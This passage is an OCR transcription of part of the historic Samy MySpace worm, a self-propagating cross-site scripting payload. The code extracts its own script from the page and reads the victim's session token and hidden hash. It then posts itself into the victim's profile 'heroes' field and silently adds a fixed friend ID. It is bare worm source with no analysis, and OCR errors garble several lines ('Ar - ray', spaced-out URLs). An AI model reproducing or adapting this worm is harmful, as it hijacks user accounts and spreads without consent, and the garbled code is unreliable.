 ```
            }
        }
    }
    return Z
}
var AA = g();
var AB = AA.indexOf('m' + 'ycode');
var AC = AA.substring(AB, AB + 4096);
var AD = AC.indexOf('D' + 'IV');
var AE = AC.substring(0, AD);
var AF;
if (AE) {
    AE = AE.replace('jav' + 'a', A + 'jav' + 'a');
    AE = AE.replace('exp' + 'r)', 'exp' + 'r)' + A);
    AF = 'but most of all,samy is my hero. < d' + 'iv id = ' + AE + 'D' + 'IV > '
}
var AG;
function getHome() {
    if (J.readyState != 4) {
        return
    }
    var AU = J.responseText;
    AG = findIn(AU, 'P' + 'rofileHeroes', ' < /td>');
    AG = AG.substring(61, AG.length);
    if (AG.indexOf('samy') == -1) {
        if (AF) {
            AG += AF;
            var AR = getFromURL(AU, 'Mytoken');
            var AS = new Ar - ray();
            AS['interestLabel'] = 'heroes';
            AS['submit'] = 'Preview';
            AS['interest'] = AG;
            J = getXMLObj();
            httpSend('/index.cfm ? fuseaction = profile.previewInterests & Mytoken = ' + AR,
                postHero, 'POST', paramsToString(AS))
        }
    }
}
function postHero() {
    if (J.readyState != 4) {
        return
    }
    var AU = J.responseText;
    var AR = getFromURL(AU, 'Mytoken');
    var AS = new Ar - ray();
    AS['interestLabel'] = 'heroes';
    AS['submit'] = 'Submit';
    AS['interest'] = AG;
    AS['hash'] = getHiddenParame - ter(AU, 'hash');
    httpSend(' / index.cfm ? fuseaction = profile.processInterests & Mytoken = ' + AR,
        nothing, 'POST', paramsToString(AS))
}
function main() {
    var AN = getClientFID();
    var BH = ' / index.cfm ? fuseaction = user.viewProfile & friendID = ' + AN + ' & Mytoken = ' + L;
    J = getXMLObj();
    httpSend(BH, getHome, 'GET');
    xmlhttp2 = getXMLObj();
    httpSend2(' / index.cfm ? fuseaction = invite.addfriend_verify & friendID = 11851658 & Mytoken = ' + L,
        processxForm, 'GET')
}
```